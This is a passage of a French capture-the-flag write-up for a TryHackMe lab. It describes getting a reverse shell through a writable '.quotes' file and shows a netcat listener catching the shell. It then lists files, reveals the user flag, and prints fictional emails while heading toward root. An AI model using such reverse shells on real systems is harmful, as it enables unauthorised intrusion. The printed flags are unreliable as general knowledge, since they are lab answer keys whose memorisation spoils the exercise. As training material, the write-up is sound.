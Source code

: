 On remarque que l'on peut écrire dans le fichier .quotes.   
On fait un reverse shell.   
Et on attend quelques minutes.  

**What's the user flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.127.241] 53530
/bin/sh: 0: can't access tty; job control turned off
$ ls
email_backup
Super_Duper_Checklist
$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

On regarde dans le fichier Super_Duper_Checklist est on a notre flag.  
Réponse : THM{M37AL_0R_P3N_T35T1NG}  

**What's the root flag?**

```bash
$ cd email_backup
$ ls
email_1
email_2
email_3
$ cat email_1
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we 
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
$ cat email_2
From - Cage@nationaltreasure.com
To - SeanArcher@BigManAgents.com

Dear Sean

We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
I could of made them great... great Sean.... I think you're missing my true potential.

On a much lighter note thank you for helping me set up my home server, Weston helped too, but
not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?

Yours

Cage
$ cat email_3
```